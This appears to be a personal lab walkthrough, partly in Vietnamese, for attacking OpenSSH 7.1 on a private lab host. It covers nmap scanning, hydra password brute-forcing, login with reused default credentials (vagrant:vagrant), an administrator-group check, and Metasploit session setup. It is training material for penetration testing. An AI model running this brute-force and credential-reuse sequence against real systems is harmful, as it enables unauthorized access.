


# Targeting OpenSSH

Target IP: 10.2.16.83

Dựa vào FTP Enumeration trong lab trước:

`administrator:vagrant`

`vagrant:vagrant`

`nmap -sV -sC -p 22 10.2.16.83`

    22/tcp open  ssh     OpenSSH 7.1 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
    |_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)

`searchsploit OpenSSH 7.1` # Use username enumeration if needed

### Brute-force SSH

Vì thường user có tài khoản FTP sẽ có SSH nên ta thử:

`hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh`

    [22][ssh] host: 10.2.16.83   login: vagrant   password: vagrant

`hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh` # No valid password for SSH - administrator

SSH login

`ssh vagrant@10.2.16.83`

    vagrant:vagrant
    WORKS!

`ssh administrator@10.2.16.83`

    administrator:vagrant
    DOES NOT work!

`net localgroup administrators` 

    "vagrant" is in the Administrators Group

Tạo 1 `Meterpreter` session

`msfconsole`

`use auxiliary/scanner/ssh/ssh_login`

`setg RHOST 10.2.16.83`

`setg RHOSTS 10.2.16.83`

`set USERNAME vagrant`

`set PASSWORD vagrant`

`run`

`session 1`

CTRL+Z to background

`sessions -u 1`

	[-] Target is running Windows on an unsupported architecture such as Windows ARM!

Có thể tải lên msfvenom thủ công rồi dùng handler

Back on the SSH session

`bash`

`net localgroup administrators`

`whoami /priv`

